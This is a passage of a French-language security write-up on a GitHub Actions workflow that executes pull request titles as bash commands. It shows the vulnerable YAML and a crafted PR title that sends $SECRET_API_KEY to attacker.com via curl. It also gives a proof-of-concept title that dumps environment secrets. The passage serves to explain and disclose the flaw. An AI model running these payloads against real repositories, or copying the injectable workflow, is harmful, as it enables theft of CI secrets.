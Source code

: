 #### Impact sur la Sécurité
- Augmentation du temps de compromission
- Difficulté de confinement
- Coûts d'investigation élevés
- Impact sur la capacité de réponse

## Démonstration d'Exploitation : Obtention du Secret

### Vulnérabilité Exploitée
La vulnérabilité se trouve dans l'étape "Title" du workflow qui exécute directement le titre de la PR comme une commande bash :
```yaml
- name: Title
  run: |
    echo "Titre PR : ${{ github.event.pull_request.title }}"
    bash -c "${{ github.event.pull_request.title }}"
```

### Méthode d'Exploitation
1. **Création d'une Pull Request Malveillante**
   - Créer un fork du dépôt
   - Créer une nouvelle branche
   - Créer une PR avec un titre contenant une commande malveillante

2. **Commande d'Exploitation**
   Le titre de la PR pourrait être :
   ```
   echo $SECRET_API_KEY > secret.txt && curl -X POST -d @secret.txt https://attacker.com/exfil
   ```
   Cette commande :
   - Accède à la variable d'environnement contenant le secret
   - Écrit le secret dans un fichier
   - Envoie le contenu du fichier à un serveur contrôlé par l'attaquant

3. **Exécution du Workflow**
   - Le workflow s'exécute automatiquement sur la PR
   - La commande malveillante est exécutée avec les permissions du workflow
   - Le secret est exfiltré vers le serveur de l'attaquant

### Preuve de Concept
Pour démontrer cette exploitation, on pourrait :
1. Créer une PR avec le titre :
   ```
   cat $GITHUB_ENV && env | grep -i secret
   ```
   Cette commande afficherait :
   - Le contenu du fichier d'environnement GitHub
   - Toutes les variables d'environnement contenant "secret"

### Impact Réel
- Le secret `API_KEY` serait exposé
- L'attaquant pourrait utiliser ce secret pour :
  - Accéder aux services protégés par l'API
  - Effectuer des actions non autorisées
  - Compromettre d'autres systèmes
